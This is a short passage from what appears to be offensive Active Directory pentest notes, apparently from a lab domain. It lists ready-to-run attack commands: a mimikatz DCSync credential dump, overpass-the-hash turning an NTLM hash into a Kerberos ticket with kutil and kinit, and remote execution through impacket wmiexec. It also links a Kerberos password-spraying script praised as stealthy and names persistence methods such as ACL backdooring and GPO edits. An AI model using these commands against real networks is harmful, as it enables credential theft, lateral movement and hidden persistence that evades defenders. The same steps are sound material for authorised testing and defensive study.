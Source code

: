 ```mimikatz # lsadump:dcsync /domain:<DOMAIN> /user:<DOMAIN>\<USER>``` --> A user with delegated Replicating Directory Changes... used as stealth persistence.  
  - ```KRB5CCNAME=/tmp/krb5cc_0 python wmiexec.py -k -no-pass els.local/2ndAdmin@user8.els.local``` --> Use the TGT ticket created with kinit and impacket wmiexec.  

Having a valid password hash (OverPass-the-Hash):

  - ```kutil -k ~/mykeys add -p 2ndAdmin@ELS.LOCAL -e arcfour-hmac-md5 -w <PASSWORD-HASH> --hex -V5``` --> Switch the NTLM password hash to the 2ndAdmin into a Kerberos Ticket.  
  - ```kinit -t ~/mykeys 2ndAdmin@ELS.LOCAL``` --> Generate Ticket.  
  - ```KRB5CCNAME=/tmp/krb5cc_0 python wmiexec.py -k -no-pass els.local/2ndAdmin@user8.els.local``` --> Use the TGT ticket created with kinit and impacket wmiexec.  

### Password Spraying using Kerberos

Kerberos is **OPSEC SAFE** for password spraying compared to SMB. [This Script](https://gist.githubusercontent.com/ropnop/c53bb27678b68435c5537057c585736c/raw/25f11866d981d0c6667d3c59ece2817ff5663fb8/kinit_user_brute.sh) can be used.  

### Persisting in Active Directory  

Best methods are ACL Backdooring, edit existing GPOS or edit user objects (best option).  



